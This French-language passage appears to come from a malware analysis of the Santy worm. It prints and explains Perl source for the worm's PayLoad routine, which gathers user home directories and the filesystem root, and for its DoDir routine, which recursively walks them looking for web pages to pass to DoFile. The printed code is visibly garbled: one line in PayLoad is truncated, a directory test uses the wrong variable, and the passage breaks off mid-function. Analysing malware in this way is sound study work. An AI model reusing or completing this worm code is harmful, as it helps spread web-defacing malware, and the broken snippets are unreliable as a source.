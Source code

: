 ```pl
sub PayLoad()
{ 
  my @dirs; 

  eval
  { 
    while(my @a = getpwent())
    {
      push(@dirs, $a[7]);
    } 
  }; 

  push(@dirs, '/'); 

  for my $l ('A' .. 'Z')
  { 
    push(@d 
    for my $d (@dirs)
    { 
      DoDir($d); 
    } 
  }
}
```

La fonction `PayLoad` se divise en deux étapes. La première est la création d'une liste contenant les chemins (path) vers différents répertoires. Le ver commence d'abord par ajouter les répertoires personnels (home) des différents utilisateurs en utilisant la fonction système `getpwent()`. Il rajoute ensuite la racine du système de fichiers à cette liste. Pour terminer il passe à la fonction `DoDir` chacun des répertoires de la liste.  

### La fonction DoDir

Comme dit précédemment la fonction `DoDir` prend en argument le chemin correspondant à un répertoire. Ce répertoire est exploré de façon récursive tout en prenant soin d'exclure les répertoires `.` (répertoire courant) et `..` (répertoire parent) afin de ne pas réaliser une boucle infinie. L'auteur du ver a aussi pensé à exclure les liens symboliques sans quoi le programme aurait aussi bouclé indéfiniment. Toutes ces vérifications prouvent que le créateur de Santy a de bonnes connaissances pour ce qui est des systèmes dérivés d'UNIX.  

Chaque fois que le ver trouve un fichier il regarde si ce dernier est une page html. Pour cela il regarde si le fichier a l'une des extensions suivantes : `htm`, `asp`, `php`, `shtm`, `jsp` ou `phtm`. Si c'est le cas ce fichier est traité par la fonction `DoFile()`.

```pl
sub DoDir($)
{

  my $dir = $_[0]; 
  $dir .= '/' unless $dir =~ m#/$#; 

  local *DIR; 
  opendir DIR, $dir or return; 

  for my $ent (grep { $_ ne '.' and $_ ne '..' } readdir DIR)
  { 

    unless(-l $dir . $ent)
    { 
      if(-d $_)
      { 
        DoDir($dir . $ent); 
        next; 
      } 
    } 
```